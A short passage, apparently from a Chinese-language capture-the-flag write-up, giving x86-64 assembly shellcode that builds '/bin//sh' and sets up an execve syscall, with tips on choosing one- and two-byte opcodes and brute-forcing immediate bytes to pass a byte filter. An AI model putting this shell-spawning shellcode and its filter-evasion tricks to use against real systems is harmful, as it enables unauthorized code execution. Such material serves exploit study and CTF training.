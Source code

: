 ```nasm

    cdq
    shr r9,1

    ;2 int
    cdq
    nop
    mov r9d,0x68732f2f

    ;3 int
    pop rdi
    cdq
    nop
    add r9d,0x6e69622f
    cdq
    nop

    ;3
    pop rdi
    mov dl,0x0c
    add r9,0x6e69622f
    cdq
    nop

    cdq
    push r9
    nop

    cdq
    pop r10
    nop

    cdq
    add rdi,r9

    cdq
    push rsp
    mov dl,0x16

    syscall
    mov dl,0x5

    mov bl,0x2
    mov al,0x3b
```

### 寻找技巧

- 多运用单字节、双字节的字节码，如:
  ```nasm
  cdq       ;0x99
  nop       ;0x90
  pop rdi   ;0x5f
  push r9   ;0x41 0x51
  ```
- 对一些需要凑成两到三个质数的可以用特定指令进行爆破
  ```nasm
  mov dl,0x??   ;0xb2 0x??  ??相同
  ;同理，可以是bl等，但需是无用的寄存器
  ```
